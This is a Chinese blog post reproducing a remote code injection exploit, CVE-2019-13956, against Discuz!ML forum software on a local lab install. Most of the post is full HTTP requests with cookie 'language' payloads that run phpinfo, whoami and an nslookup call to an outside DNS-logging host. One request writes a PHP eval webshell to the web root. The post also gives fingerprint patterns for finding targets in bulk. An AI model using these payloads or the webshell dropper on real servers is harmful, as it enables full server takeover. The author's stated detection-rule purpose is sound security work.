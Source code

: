 ```yaml
---
layout:     post
title:      【复现】Discuz!ML V3.X 代码注入漏洞
subtitle:   远程代码注入漏洞
date:       2019-09-19
author:     看不尽的尘埃
header-img: img/post-bg-ios9-web.jpg
catalog: 	 true
tags:
    - 远程代码注入漏洞
---
```

## 前言
最近在给公司写指纹规则、漏洞检测和利用规则，因此漏洞复现的文章更新会比较频繁。

## 0x00 漏洞介绍
* 漏洞名称：Discuz!ML V3.X 代码注入漏洞
* CVE编号：CVE-2019-13956
* 发布时间：2019-06-14
* 漏洞说明：该漏洞存在于请求流量中的cookie参数中的language字段，攻击者能够利用该漏洞在请求流量的cookie字段中（language参数）插入任意代码，最终执行任意代码，从而实现完全远程接管整个服务器的目的。
* 影响范围：Discuz! ML v.3.4、Discuz! ML v.3.3、Discuz! ML v.3.2
* 修复建议：目前官方暂未进行安全更新，使用该CMS的用户可时刻关注官方网站以及代码托管网站获取最新信息


## 0x01 环境搭建
首先去官网下载源码：
[http://discuz.ml/download](http://discuz.ml/download)
下载完成后，解压到WWW目录下，打开phpstudy，访问URL，出现安装界面：
![图片](https://uploader.shimo.im/f/SBLiJUijQq4tEaHs.png!thumbnail)
正确填写数据库信息和管理员信息点击下一步：

![图片](https://uploader.shimo.im/f/320TO4LuapAt9xfp.png!thumbnail)

稍等几秒后，出现completed说明安装完成：
![图片](https://uploader.shimo.im/f/Y82tUjiqla4vYjT7.png!thumbnail)



## 0x02 漏洞复现
### Poc验证
我们可以利用phpinfo信息来验证漏洞是否存在：
```
GET /discuz/index.php HTTP/1.1
Host: 127.0.0.1
Connection: keep-alive
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/76.0.3809.132 Safari/537.36
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3
Sec-Fetch-Site: none
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7
```
Cookie: u7ip_2132_saltkey=E7E88rBR; u7ip_2132_language=sc'.phpinfo().'; u7ip_2132_lastvisit=1568853333; u7ip_2132_sid=eWnKtK; u7ip_2132_sendmail=1; u7ip_2132_lastact=1568857423%09index.php%09


![图片](https://uploader.shimo.im/f/v7dKNoRSyXgNulRv.png!thumbnail)

我们也可以利用system函数去执行系统命令来验证漏洞是否存在，whoami是Windows/Linux通用命令：
```
GET /discuz/index.php HTTP/1.1
Host: 127.0.0.1
Connection: keep-alive
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/76.0.3809.132 Safari/537.36
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3
Sec-Fetch-Site: none
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7
Cookie: u7ip_2132_saltkey=E7E88rBR; u7ip_2132_lastvisit=1568853333; u7ip_2132_sid=eWnKtK; u7ip_2132_sendmail=1; u7ip_2132_language=sc%27.system('whoami').%27; u7ip_2132_lastact=1568857490%09index.php%09
```

![图片](https://uploader.shimo.im/f/SYEbWFbvMUsfxYy7.png!thumbnail)

但是whoami回显的内容不容易被程序识别，因此我们可以借用DNSLOG平台来验证，考虑到nslookup有些Linux服务器可能没有，也可以使用ping dnslog_server：
```
GET /discuz/index.php HTTP/1.1
Host: 127.0.0.1
Connection: keep-alive
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/76.0.3809.132 Safari/537.36
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3
Sec-Fetch-Site: none
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7
```
Cookie: u7ip_2132_saltkey=E7E88rBR; u7ip_2132_lastvisit=1568853333; u7ip_2132_sid=eWnKtK; u7ip_2132_sendmail=1; u7ip_2132_language=sc%27.system('nslookup 4evdeu.dnslog.cn').%27; u7ip_2132_lastact=1568857490%09index.php%09



![图片](https://uploader.shimo.im/f/vl7znCnpV0ouVwbb.png!thumbnail)

### EXP利用
我们可以通过这个漏洞来写webshell，HTTP请求包如下，执行成功会返回正常页面，执行错误会报错，webshell在网站根目录下：
```
GET /discuz/index.php HTTP/1.1
Host: 127.0.0.1
Connection: keep-alive
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/76.0.3809.132 Safari/537.36
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3
Sec-Fetch-Site: none
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7
Cookie: X9O9_2132_saltkey=seXAWPyb; X9O9_2132_language=sc'.file_put_contents%28%27x.php%27%2Curldecode%28%27%253c%253fphp%2520@eval%28%2524_%25%35%30%25%34%66%25%35%33%25%35%34%255b%2522x%2522%255d%29%253b%253f%253e%27%29%29.'; X9O9_2132_lastvisit=1568854995; X9O9_2132_sid=ZUI7iz; X9O9_2132_sendmail=1; sid=abc48gBCCWNz%252FH9NX2yt9UHcyxMQp02Yw80wGxY%252B%252Bqf7oBiEN31WIcrdCg; X9O9_2132_lastact=1568858654%09index.php%09
```

![图片](https://uploader.shimo.im/f/vXLo3wyBZegFbXS0.png!thumbnail)

![图片](https://uploader.shimo.im/f/vBlGexTYgvcrZEJF.png!thumbnail)


## 0x03 Web指纹
想要批量怎么能木有指纹？！
* <meta name\="generator" content\="Discuz! (.*?)" />
* <meta name\="author" content\="Discuz!(.*?)" />
## 0x04 总结

1、一开始在利用漏洞写php webshell的时候，出现了报错，最后是在Github上的利用工具中发现了不报错的EXP，这个项目的地址是[https://github.com/theLSA/discuz-ml-rce/blob/master/dz-ml-rce.py](https://github.com/theLSA/discuz-ml-rce/blob/master/dz-ml-rce.py)，没有这个我估计又得自闭了。
2、在写策略的时候，遇到cookie随机的问题，通过写了一个正则表达式匹配了出来
`[A-Za-z0-9]{4}_[A-Za-z0-9]{4}_language=[A-Za-z]{2}`
